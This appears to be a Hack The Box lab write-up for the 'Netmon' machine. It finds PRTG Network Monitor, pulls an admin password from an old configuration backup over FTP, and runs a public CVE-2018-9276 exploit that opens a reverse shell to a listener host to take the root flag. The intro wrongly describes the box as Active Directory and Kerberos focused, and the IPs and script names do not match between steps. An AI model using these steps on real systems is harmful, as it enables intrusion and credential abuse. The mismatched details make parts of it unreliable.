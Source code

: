 # Netmon

Netmon is a easy HTB lab that focuses on active directory, disabled kerberos pre-authentication and privilege escalation. In this walkthrough, we will go over the process of exploiting the services and gaining access to the root user.

### Recon

The first step in any penetration testing process is reconnaissance. We can start by running nmap scan on the target machine to identify open ports and services.
```
$ sudo nmap -p1-10000 --min-rate 1000 -sV 10.129.229.100

Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-27 00:06 BST
Nmap scan report for 10.129.229.100
Host is up (0.37s latency).
Not shown: 9994 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
21/tcp   open  ftp          Microsoft ftpd
80/tcp   open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.84 seconds
```

Enumerating the website, we can the software and its version.
```
$ curl http://10.129.229.100/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version
...
<p>You are using the Freeware version of <a href='https://www.paessler.com?utm_source=prtg&utm_medium=referral&utm_campaign=webgui-freeware'>PRTG Network Monitor</a>. We're glad to help you cover all aspects of the current state-of-the-art <a href='https://www.paessler.com/network_monitoring?utm_source=prtg&utm_medium=referral&utm_campaign=webgui-freeware'>network monitoring!</a>.
<span class="prtgversion">&nbsp;PRTG Network Monitor 18.1.37.13946 </span>
```

From the above request, we got the software name as `PRTG Network Monitor` and version as `18.1.37.13946`. Searching online, we found that https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/. Reading the files on FTP, we get the following file:
```
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
10-26-23  09:53PM              1717102 PRTG Graph Data Cache.dat
```

Read the old bak file as it has diffrent sizes. From the file, we can the old password and update to this 2019 year.

PrTg@dmin2018

The username was prtgadmin and password was PrTg@dmin2019 (NOTE: its 2019 as the file was last modified in 2019)

Searching online, we found that exploit POC - https://github.com/wildkindcc/CVE-2018-9276 and we can use the credentials.

```
$ git clone https://github.com/wildkindcc/CVE-2018-9276.git
$ python CVE-2018-9276.py -h
$ sudo python3 exploit.py -i 10.129.74.116 -p 80 --lhost 10.10.14.106 --lport 4445 --user prtgadmin --password PrTg@dmin2019
```

Getting the flag:
```
cd C:\Users\Administrator\Desktop;
dir;
type root.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```
